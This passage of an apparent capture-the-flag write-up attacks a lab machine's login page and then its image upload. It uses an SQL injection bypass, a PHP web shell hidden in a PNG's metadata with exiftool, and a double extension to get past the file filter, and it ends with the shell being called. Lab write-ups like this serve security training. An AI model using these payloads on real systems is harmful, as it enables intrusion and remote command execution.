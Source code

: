 Lets modify the input to contain a MySQL payload to bypass the login screen:
<pre>
username=admin<b>' or 1=1--+</b>&password=password
</pre>

<p style="text-align: center;">
<img src="https://raw.githubusercontent.com/DefenderGB/defendergb.github.io/master/_images/magic-login-burp-sqlinjection.png" style="width:250px;"><br/>
</p>

We are routed to an upload page. If you click Upload Image, it will tell you that it only accepts jpg, jpeg, and png.

NOTE: You will need a image. Replace "test" with the name of your file. I use my dgb1.png

Lets modify a png with exiftool and add a php shell with a cmd parameter:
```
exiftool -Comment='<?php system($_REQUEST['cmd']);?>' test.png
```

<p style="text-align: center;">
<img src="https://raw.githubusercontent.com/DefenderGB/defendergb.github.io/master/_images/magic-upload-exiftool.png" style="width:250px;"><br/>
</p>


To bypass the file type filter lets make this a .php.png so it opens as a php:
```
mv test.png test.php.png
```

Upload the file.

<p style="text-align: center;">
<img src="https://raw.githubusercontent.com/DefenderGB/defendergb.github.io/master/_images/magic-upload-php.png" style="width:250px;"><br/>
</p>


Call the php shell by adding a parameter value to our hidden php file:
```
http://10.10.10.185/images/uploads/test.php.png?cmd=ls
```
